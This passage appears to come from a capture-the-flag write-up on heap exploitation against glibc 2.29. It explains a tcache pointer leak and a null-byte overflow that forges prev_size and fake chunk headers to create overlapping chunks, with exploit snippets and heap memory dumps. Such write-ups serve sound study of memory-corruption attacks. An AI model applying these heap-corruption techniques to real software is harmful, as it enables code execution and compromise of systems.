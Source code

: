The reallocation of A will come from tcache aswell and will give back the exact address that was just freed. This means the fd pointer is now in the data section of A. Because we have not added any data to it on creation, we can read the pointer with *show*. Afterwards we free the A area again to clean up (tcache\[0x130\] now at 7).

# Null byte overflow & overlapping chunks

The basic idea is to overflow a null byte from chunk B into C, resetting the the prev\_inuse bit on Cs header. When we now free A and C, coalescing will kick in, combining all memory from C to A into one big chunk. B was never freed and is still allocated, while simultaneously considered inside the big free chunk.

There are 3 things to pay attention to here:

- The *previous size* value between B and C must be forged, so it points to the start of A
- glibc 2.29 checks on coalescing that the *size* of A is equal to the size of the forged *previous size* value
- A null byte overwrite into Cs size can reduce the size of C considerably and it will be checked that there is a next chunk at the end of C.

Criterion 1 we can achieve by just writing the prev\_size value to the end of B, because its still inside Bs data section.  
Criterion 2 we fulfil by writing fake chunk metadata inside As data section.This fake metadata has our fake size and 2 pointers that point back to this fake chunk itself, requiring the heap leak we already got.  
Criterion 3 we fulfil by writing fake chunk metadata inside Cs data section.

The null byte overwrite in this challenge is achieved by creating chunk and then editing its full size. The terminating null byte will overflow.

Fake header in A (Criterion 2):

```
add(0x128, p64(0)+p64(0x241)+p64(fake_header)+p64(fake_header))
```

```
0x55a2ac8274d0:    0x0000000000000000  0x0000000000000131
0x55a2ac8274e0:    0x0000000000000000  0x0000000000000241
0x55a2ac8274f0:    0x000055a2ac8274a0  0x000055a2ac8274a0
0x55a2ac827500:    0x414141414141410a  0x4141414141414141
```

Null byte overwrite from B into Cs metadata & fake previous size value:

```
for i in range(0x118-2, 0x118-9, -1):
    edit(1, 'B'*i + '\x40\x02')
```

```
0x55a2ac8274d0:    0x0000000000000000  0x0000000000000131
0x55a2ac8274e0:    0x0000000000000000  0x0000000000000241
0x55a2ac8274f0:    0x000055a2ac8274a0  0x000055a2ac8274a0
0x55a2ac827500:    0x414141414141410a  0x4141414141414141
...
0x55a2ac8275f0:    0x4141414141414141  0x4141414141414141
0x55a2ac827600:    0x4141414141414141  0x0000000000000121
0x55a2ac827610:    0x4242424242424242  0x4242424242424242
...
0x55a2ac827710:    0x4242424242424242  0x4242424242424242
0x55a2ac827720:    0x0000000000000240  0x0000000000000100
0x55a2ac827730:    0x4343434343434343  0x4343434343434343
...
0x55a2ac827810:    0x4343434343434343  0x4343434343434343
0x55a2ac827820:    0x4343434343434343  0x0000000000000021
0x55a2ac827830:    0x0000000000000000  0x0000000000000000
0x55a2ac827840:    0x0000000000000000  0x000000000001e7c1
```